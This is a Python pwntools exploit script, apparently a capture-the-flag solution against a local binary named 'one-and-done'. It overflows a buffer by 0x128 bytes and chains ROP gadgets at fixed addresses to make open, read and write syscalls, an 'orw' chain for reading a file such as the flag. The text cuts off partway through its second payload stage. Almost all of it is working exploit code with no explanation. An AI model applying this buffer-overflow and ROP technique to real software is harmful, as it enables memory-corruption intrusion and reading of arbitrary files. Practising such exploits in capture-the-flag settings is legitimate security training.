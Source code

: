 exp (orw) : 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./one-and-done',checksec=False)

p = process()

offset = 0x120
pop_rdi = 0x0000000000401793
pop_rsi = 0x0000000000401713
pop_rdx = 0x0000000000401f31
syscall_ret = 0x0000000000401ab2
pop_rax = 0x000000000040100b
bss = 0x405ea0
gets_addr = 0x0000000000401230


#       unsigned int fd, char *buf, size_t count
def read(writable,fd =3 ,count = 0x100):
    pl = p64(pop_rax) + p64(0)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret) + p64(exe.sym.main)
    return pl

def read_flag(writable,fd =3 ,count = 0x100):
    pl = p64(pop_rax) + p64(0)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret)
    return pl

#       const char *filename, int flags, umode_t mode
def open(filename,flags=0,mode=0):
    pl = p64(pop_rax) + p64(2)
    pl += p64(pop_rdi) + p64(filename)
    pl += p64(pop_rsi) + p64(flags)
    pl += p64(pop_rdx) + p64(mode)
    pl += p64(syscall_ret)
    return pl
# unsigned int fd, const char *buf, size_t count
def write(writable,fd=1,count=0x100):
    pl = p64(pop_rax) + p64(fd)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret)
    return pl


def state1():
    payload = b'a'*0x128
    payload += read(bss,0)
    return payload

def state2():
    payload = b'a'*0x128
    payload += open(bss)
```
